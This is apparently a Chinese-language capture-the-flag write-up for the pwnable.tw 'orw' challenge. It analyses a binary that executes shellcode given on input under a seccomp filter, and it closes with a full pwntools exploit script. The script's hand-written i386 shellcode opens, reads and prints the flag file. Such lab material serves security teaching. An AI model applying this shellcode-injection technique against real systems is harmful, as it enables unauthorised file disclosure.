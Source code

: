 ## 0x00 分析

首先，题目的目的是

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

```

也就是只能通过`open`、`read`、`write`，来读取文件`/home/orw/flag`

ida 分析之，即从stdin读取0xc8=200个字节，然后执行这段代码

ida的f5如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  // ((void (*)(void)) 转换为指向函数的指针类似
  ((void (*)(void))shellcode)();
  return 0;
}

```

`void(*)(void)`是函数指针，函数类似原型`void function(void)`

```c
void(*p)(void); /*定义一个函数指针*/
p=(void(*)(void))&shellcode;
p();

```

因此，本题的主要目的是构造shellcode

以下是需要注意的点

* [系统调用号](http://syscalls.kernelgrok.com/)

<!-- TODO 调试说明？ -->
* linux 32位的入参顺序  从右至左依次入栈
      
    > linux 64位参数传递是按照rdi、rsi、rdx、rcx、r8、r9的顺序存放第一个参数到第六个参数。对于超出6个参数的入参还是和32位机器一样放入栈中。

* linux的返回值一般在寄存器eax中
* sys_open
* sys_read
* sys_write


## 0x01 调试

sys_open

![](assets/2019-08-04-21-34-05.png)

sys_read

![](assets/2019-08-04-21-35-59.png)

sys_write

这里的"this is a test flag"是自己创建的，用于调试

![](assets/2019-08-04-21-36-21.png)

## 0x02 EXP

```py
# coding:utf-8

from pwn import *
from pwnlib import *

p = process('./orw')
# p = remote('chall.pwnable.tw', 10001)


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])


# push_file_name = shellcraft.i386.pushstr("/home/orw/flag")
# open_file = shellcraft.i386.linux.syscall("SYS_open", 'esp')
# read_file_to_fd = shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30)
# write_from_fd_to_stdin = shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
# shellcode = push_file_name+open_file + read_file_to_fd+write_from_fd_to_stdin

shellcode = ''
# open(file,0,0)
shellcode +=    """
                xor ecx,ecx;
                mov eax,0x5;
                push ecx;
                push 0x67616c66;
                push 0x2f77726f;
                push 0x2f656d6f;
                push 0x682f2f2f;
                mov ebx,esp;
                xor edx,edx;
                int 0x80;
                """
# read(3,file,0x30)
shellcode +=    """
                mov eax,0x3;
                mov ecx,ebx;
                mov ebx,0x3;
                mov dl,0x30;
                int 0x80;
                """
# write(1,file,0x30)
shellcode +=    """
                mov eax,0x4;
                mov bl,0x1;
                int 0x80;
                """

p.recvuntil(":")
payload = asm.asm(shellcode)
gdb_attach(p)
p.send(payload)
p.interactive()

```

## 0x03 其他

看到[Anciety的博客](https://blog.csdn.net/qq_29343201/article/details/78109066?locationNum=3&fps=1)，打算试试dump
（给学弟递茶）

TODO 过段时间再弄